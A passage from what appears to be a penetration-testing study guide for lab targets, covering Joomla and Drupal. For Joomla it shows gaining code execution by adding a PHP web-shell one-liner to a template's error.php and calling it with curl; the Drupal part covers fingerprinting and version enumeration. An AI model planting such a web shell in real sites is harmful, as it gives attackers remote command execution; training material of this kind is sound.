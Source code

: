 ### Attacking 

We can try to login in `http://<TARGET>/administrator`. We can customize a template to try making a RCE in PHP. From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu. Next, we can click on a template name. Let's choose **protostar** under the **Template** column header. This will bring us to the `Templates: Customise` page. Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows:
```php
system($_GET['cmd']);
```

Now we can call it:
```console
zero@pio$ zeropio@htb[/htb]$ curl -s http://<TARGET>/templates/protostar/error.php/error.php?cmd=id
```

Also, check the vulnerabilites. We can have a list of them [here](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html). 

---

## Drupal

Drupal is another open-source CMS that is popular among companies and developers. A Drupal website can be identified in several ways, including by the header or footer message `Powered by Drupal`, the standard **Drupal logo**, the presence of a `CHANGELOG.txt`{: .filepath} file or `README.txt`{: .filepath} file, via the page source, or clues in the robots.txt file such as references to `/node`{: .filepath}:
```console
zero@pio$ curl -s http://<TARGET> | grep Drupal
```

Another way to identify Drupal CMS is through **nodes**. The page URIs are usually of the form `/node/<nodeid>`{: .filepath}. 

Drupal supports three types of users by default:
- **Administrator**: This user has complete control over the Drupal website
- **Authenticated User**: These users can log in to the website and perform operations such as adding and editing articles based on their permissions
- **Anonymous**: All website visitors are designated as anonymous. By default, these users are only allowed to read posts

Let's look at an example of enumerating the version number using the `CHANGELOG.txt`{: .filepath} file:
```console
zero@pio$ curl -s http://<TARGET>/CHANGELOG.txt | grep -m2 ""
```

We can try with **droopescan** again:
```console
zero@pio$ droopescan scan drupal -u http://<TARGET>
```

### PHP Filter

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the PHP filter module, which *Allows embedded PHP code/snippets to be evaluated* in `http://<TARGET>/#overlay=admin/modules`:
